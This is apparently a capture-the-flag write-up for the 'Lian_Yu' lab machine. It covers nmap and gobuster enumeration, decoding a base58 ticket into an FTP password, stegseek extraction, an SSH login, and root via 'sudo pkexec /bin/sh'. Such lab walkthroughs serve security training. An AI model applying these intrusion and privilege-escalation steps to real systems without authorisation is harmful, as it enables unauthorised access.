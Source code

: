 # Lian_Yu

### Find the Flags
Nmap scan shows ports 21,22,80,111 and 46439 open. 

    PORT      STATE SERVICE VERSION
    21/tcp    open  ftp     vsftpd 3.0.2
    22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
    |   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
    |   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
    |_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
    80/tcp    open  http    Apache httpd
    |_http-title: Purgatory
    |_http-server-header: Apache
    111/tcp   open  rpcbind 2-4 (RPC #100000)
    | rpcinfo: 
    |   program version    port/proto  service
    |   100000  2,3,4        111/tcp   rpcbind
    |   100000  2,3,4        111/udp   rpcbind
    |   100000  3,4          111/tcp6  rpcbind
    |   100000  3,4          111/udp6  rpcbind
    |   100024  1          32857/udp6  status
    |   100024  1          39951/tcp6  status
    |   100024  1          44276/udp   status
    |_  100024  1          46439/tcp   status
    46439/tcp open  status  1 (RPC #100024)

Directory enumeration on the webserver finds `/island` with the following content: <br />
![image](https://github.com/user-attachments/assets/4df4e7b5-773b-4e6b-82e8-4a5cbeb5644a)<br />
The code word is `vigilante`. <br />
At this point I am stuck for a bit. I decide to look at the hint and apparenlty there's a web directory composed by 4 digits. I have no idea which wordlist contains such a name, so I created one with `seq 0 9999 > numbers.txt` and then run `gobuster dir -u "http://10.10.13.240/island" -w numbers.txt`. <br />
This actually finds directory `/island/2100`. I'm glad I looked at the hint. This page contains another hint: <br />
![image](https://github.com/user-attachments/assets/e4ce76fc-25d1-4cc8-a015-6a14b312c998)<br />
I need to find a file with extension .ticket. I run `gobuster dir -u "http://10.10.13.240/island/2100" -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x ticket` and find `/green_arrow.ticket`:<br />
![image](https://github.com/user-attachments/assets/5801b3fe-8b43-4654-bf85-02fd9935f75b)<br />
At first I thought this was the FTP password, but it didnt work. So I started trial and error decoding it with [cyberchef](https://gchq.github.io/CyberChef/), and found the right password after decoding it base58:<br />
![image](https://github.com/user-attachments/assets/05a6d454-3511-407a-b5c8-6f74e42ded2e)<br />
The FTP server contains an image called `aa.jpg`. I was able to extract files from it with `stegseek`:<br />
![image](https://github.com/user-attachments/assets/d06fbe86-05cd-4533-a39e-1bce13d3ff02)<br />
This image contains a .zip file. When extracted, there are two files: <br />
![image](https://github.com/user-attachments/assets/cb4bc9df-44d2-45fb-8b6a-0496201f83aa)<br />
Furthermore, when navigating on the FTP server, I saw that there are two users on this box: <br />
![image](https://github.com/user-attachments/assets/87290cb6-90ca-45c4-ad6e-fcffc86042f0)<br />
So I was able to use that password to log into slade's ssh account. <br />
For privesc, if I run `sudo -l` I get: <br />
![image](https://github.com/user-attachments/assets/17f66974-90d7-4c32-a413-4beab653fae2)<br />
The exploit for this can be found on  [gtfobins](https://gtfobins.github.io/gtfobins/pkexec/#sudo). Just type `sudo pkexec /bin/sh`.


